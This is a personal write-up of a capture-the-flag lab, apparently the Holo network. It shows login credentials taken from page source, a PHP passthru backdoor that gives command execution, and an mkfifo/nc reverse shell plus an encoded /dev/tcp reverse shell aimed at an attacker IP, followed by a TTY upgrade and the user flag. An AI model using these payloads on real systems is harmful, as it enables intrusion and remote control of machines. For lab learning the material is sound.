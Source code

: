 
```
admin
```

```
DBManagerLogin!
```

So we are in 

![[Pasted image 20240813203006.png]]

And we can see php is there let's see how to get the shell from here 

So i pasted the code that i found in the source code 
```
  <!--                   //if ($_GET['cmd'] === NULL) { echo passthru("cat /tmp/Views.txt"); } else { echo passthru($_GET['cmd']);} -->
```

and found that we have RCE here

```
http://admin.holo.live/dashboard.php?cmd=whoami
```
![[Pasted image 20240813203426.png]]

let's see if we are able to get a reverse shell

So i tried to get the version of python but i don't think it's installed (i.e. check which python)
but than bash came to my mind and it returned (i.e. which bash)
```
admin.holo.live/dashboard.php?cmd=which%20bash
```
![[Pasted image 20240813203747.png]]


After so many try's this one linear working as website got stuck which is an indication we might have got a shell
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.51.9.13 4242 >/tmp/f
```

```
%2Fbin%2Fbash -i >%26 %2Fdev%2Ftcp%2F10.51.9.13%2F4242 0>%261
```

![[Pasted image 20240813204209.png]]

Let's get the full shell from the dummy shell

```
python3 -c "__import__('pty').spawn('/bin/bash')"
stty -raw echo;fg 
reset.

export TERM=xterm
```

![[Pasted image 20240813204531.png]]

Let's run the linpeas's and see what we find here
```
cat user.txt
HOLO{175d7322f8fc53392a417ccde356c3fe}
```

